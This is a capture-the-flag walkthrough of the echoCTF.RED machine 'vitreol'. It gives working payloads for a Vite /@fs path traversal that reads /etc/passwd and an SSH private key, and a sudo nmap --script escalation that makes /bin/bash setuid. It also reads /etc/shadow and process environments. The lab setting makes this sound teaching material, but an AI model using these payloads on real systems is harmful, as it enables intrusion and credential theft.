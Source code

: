 # Enumeration:

Start off with an nmap scan. EchoCTF.RED is kind enough to provide an exact number of services that each machine has running and normally requires you to scan all ports (TCP and UDP) but for the sake of convenice, there is only port 80 active so I will run a short scan.

```vim
nmap -sV -sC -v -Pn <IP_Addr> 
```

We get an output like this:

```vim
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 96b076a2282654bf151d14fd0cb3772d (RSA)
|   256 b054a89e92e72ed80d0ff8001b257ead (ECDSA)
|_  256 6d551715187091c266dbe8170ec96038 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NCP, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Access-Control-Allow-Origin: *
|     Date: Sat, 04 Feb 2023 10:10:08 GMT
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Access-Control-Allow-Origin: *
|     Date: Sat, 04 Feb 2023 10:10:01 GMT
|     Connection: close
|   HTTPOptions: 
|     HTTP/1.1 204 No Content
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Methods: GET,HEAD,PUT,PATCH,POST,DELETE
|     Vary: Access-Control-Request-Headers
|     Content-Length: 0
|     Date: Sat, 04 Feb 2023 10:10:01 GMT
|_    Connection: close
```

Looking into the website, we come across a simple counter application. Reading the code led me to finding the GitHub repository of this application: [LINK](https://github.com/vitejs/vite)  


# Exploit:

I tried looking at any publically disclosed vulnerabilities and found this link: [Vulnerability](https://security.snyk.io/vuln/SNYK-JS-VITE-2987511) 

While the example displayed did not seem to function, Looking at the [GitHub Issue](https://github.com/vitejs/vite/issues/8498) showed us what we had to do and a payload to come about with it:  `/@fs/app/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd` (Use BurpSuite since browser may remove the encoded part of the payload)

The above payload will display `/etc/passwd` which contains the first flag and information on the users on the machine. We can try to get `ETSCTF`'s id_rsa with the following payload: `/@fs/app/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f/home/ETSCTF/.ssh/id_rsa`

With this, we can log in as `ETSCTF` user using `ssh ETSCTF@<IP_Addr> -i id_rsa`

# Priv-Esc:

Running `sudo -l` gives us the following output:

```vim
ETSCTF@vitreol:~$ sudo -l
Matching Defaults entries for ETSCTF on vitreol:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ETSCTF may run the following commands on vitreol:
    (ALL) NOPASSWD: /usr/local/sbin/wrapnmap
```

Looking into `/usr/local/sbin/wrapnmap` , we can see the following code:

```vim
ETSCTF@vitreol:~$ cat /usr/local/sbin/wrapnmap
#!/usr/bin/python
from libnmap.process import NmapProcess
from libnmap.parser import NmapParser
import sys
NMAP_OPTIONS = ' -sV -Pn -n '
targets = sys.argv[1]
nmap_proc = NmapProcess(targets=targets, options=NMAP_OPTIONS,safe_mode=True)
nmap_proc.run()
```

This is simply running an nmap scan and accepts a target as an argument. We can easily exploit this using GTFObins: [Exploit](https://gtfobins.github.io/gtfobins/nmap/#shell)

We can use the following payload for a shell:

```vim
TF=$(mktemp)
echo 'os.execute("chmod +s /bin/bash")' > $TF
sudo /usr/local/sbin/wrapnmap --script=$TF

bash -p
```

This will give you root permission with which we can access the other flags:

1. Flag 2 is in `/root`
2. Flag 3 is in `/etc/shadow`
3. Flag 4 can be viewed by running `strings /proc/*/environ | grep "ETSCTF"`
4. Flag 5 can be viewed with `grep 'ETSCTF' -r /app`
